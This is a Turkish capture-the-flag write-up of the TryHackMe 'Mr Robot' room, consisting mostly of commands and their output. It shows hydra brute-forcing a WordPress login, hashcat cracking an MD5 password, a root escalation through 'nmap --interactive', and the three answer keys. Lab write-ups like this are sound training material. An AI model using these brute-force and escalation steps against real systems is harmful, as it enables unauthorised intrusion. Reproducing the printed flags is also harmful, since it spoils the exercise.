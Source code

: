 ```yaml
---
title: "Mr Robot"
description: " https://tryhackme.com/room/mrrobot"
---
```


<img
  src="/images/mrrobot.svg"
  alt="Mrrobot Sv"
  title="Mrrobot Sv"
  style={{ width:"20%" }}
/>

Öncelikle makineyi Nmap ile tarayıp açık portlarını görelim:

<img
  src="/images/image.png"
  alt="image.png"
  title="image.png"
  style={{ width:"100%" }}
/>

```bash
export IP=10.10.181.6
```

Böylece, makinede çalışan web ve ssh servislerini görebiliyoruz.  Makineyi daha detaylı incelediğimizde, robots.txt dosyasında tarayıcılar için gizli iki konum buluyoruz.

```bash
nmap -sS -sV -vv -Pn $IP
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 61
80/tcp  open   http     syn-ack ttl 61 Apache httpd
443/tcp open   ssl/http syn-ack ttl 61 Apache httpd
```

```bash
gobuster dir -u http://10.10.108.126/ -w /usr/share/wordlists/dirb/common.txt
```

![image.png](/images/image.png)

![Ekrangörüntüsü2025 09 02210745 Pn](/images/Ekrangörüntüsü2025-09-02210745.png)

Bir sonraki adım bu bilgileri bir tarayıcıyla kontrol etmek olacak

![Resim 2025 09 02 210933428 Pn](/images/resim_2025-09-02_210933428.png)

![Resim 2025 09 02 211118538 Pn](/images/resim_2025-09-02_211118538.png)

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Ve işte ilk anahtarımız:

![Resim 2025 09 02 211228270 Pn](/images/resim_2025-09-02_211228270.png)

 şifrelenmiş bir parola olabilecek bir base64 dizesi buldum

```bash
hydra -L fsocity.dic -p test 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 20:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.239.79:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.239.79   login: Elliot   password: test
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Elliot

```bash
sort fsocity.dic | uniq > fsocity_sorted.dic

##ve sonra

hydra -l Elliot -P fsocity_sorted.dic 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"

[80][http-post-form] host: 10.10.157.219   login: "Elliot"  password: "ER28-0652"
```

```bash
python -c "import pty; pty.spawn('/bin/bash')"

daemon@linux:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ ls -la /home/robot
ls -la /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

export TERM=xterm

cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

hashcat -m 0 --force hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Sep 29 22:09:23 2020 (0 secs)
Time.Estimated...: Tue Sep 29 22:09:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   123.2 kH/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: treetree -> loserface1

Started: Tue Sep 29 22:09:15 2020
Stopped: Tue Sep 29 22:09:24 2020

## abcdefghijklmnopqrstuvwxyz
```

```bash
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

```bash
nmap --interactive

nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

1. Key `073403c8a58a1f80d943455fb30724b9`
2. Key `822c73956184f694993bede3eb39f959`
3. Key `04787ddef27c3dee1ee161b21670b4e4`

Haneye hayılrı olsun ustam\
  
